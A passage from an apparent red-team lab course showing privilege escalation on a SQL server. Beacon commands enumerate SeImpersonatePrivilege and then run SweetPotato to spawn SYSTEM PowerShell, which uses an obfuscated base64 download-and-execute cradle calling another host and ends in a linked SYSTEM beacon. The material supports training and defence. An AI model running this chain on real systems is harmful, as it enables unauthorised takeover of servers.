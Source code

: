 This instance of SQL is running as NT Service\MSSQLSERVER, which is the default during more modern SQL installations.  It has a special type of privilege called _SeImpersonatePrivilege_**,** which allows the account to "impersonate a client after authentication".
```
beacon> getuid
[*] You are NT Service\MSSQLSERVER

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED

[*] Completed collection in 0.037 seconds
```
  

In a nutshell, this privilege allows the user to impersonate a token that it's able to get a handle to.  However, since this account is not a local admin, it can't just get a handle to a higher-privileged process (e.g. SYSTEM) already running on the machine.  A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue service that the attacker creates.  This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.
```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGMAJwApAA=="

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
  EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering notification on evil PIPE \\sql-1/pipe/b888d569-b66e-4280-b8c5-995afbb9b02c
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

beacon> connect localhost 4444
[+] established link to child beacon: 10.10.120.25
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/0f7/048/ea8/sql-1-system-beacon.png)